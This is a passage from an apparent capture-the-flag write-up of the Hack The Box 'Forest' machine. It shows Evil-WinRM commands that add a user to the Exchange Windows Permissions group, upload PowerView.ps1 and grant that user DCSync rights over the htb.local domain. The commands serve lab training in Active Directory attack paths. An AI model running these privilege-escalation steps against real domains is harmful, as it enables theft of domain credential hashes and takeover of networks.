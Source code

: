 Adding the new user `forest_pwn` into **Exchange Windows Permission Group**. Look at the field name **Global Group Membership** in the `net user forest_pwn` command.

```
*Evil-WinRM* PS C:\tmp> net group "Exchange Windows Permissions" forest_pwn /add
The command completed successfully.

*Evil-WinRM* PS C:\tmp> net user forest_pwn
User name                    forest_pwn
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/13/2024 7:58:50 PM
Password expires             Never
Password changeable          8/14/2024 7:58:50 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Exchange Windows Perm*Domain Users
The command completed successfully.
```

Assigning the DcSync Privileges to `forest_pwn` user. In order to assign the DcSync Privileges, We will need to use the PowerShell script,[ PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1). Download the script, upload it to the target box. I have created a directory tmp under the C: Drive. So I will be uploading it to C:\\tmp\\

```
*Evil-WinRM* PS C:\tmp> upload PowerView.ps1
Info: Uploading /home/ringbuffer/Downloads/Forest.htb/PowerView.ps1 to C:\tmp\PowerView.ps1
Data: 1027036 bytes of 1027036 bytes copied
Info: Upload successful!

*Evil-WinRM* PS C:\tmp> Import-Module ./PowerView.ps1
*Evil-WinRM* PS C:\tmp> $pass = convertto-securestring 'password' -AsPlainText -Force
*Evil-WinRM* PS C:\tmp> $cred = New-Object System.Management.Automation.PSCredential('htb\forest_pwn', $pass)
*Evil-WinRM* PS C:\tmp> Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity forest_pwn -Rights DcSync

```

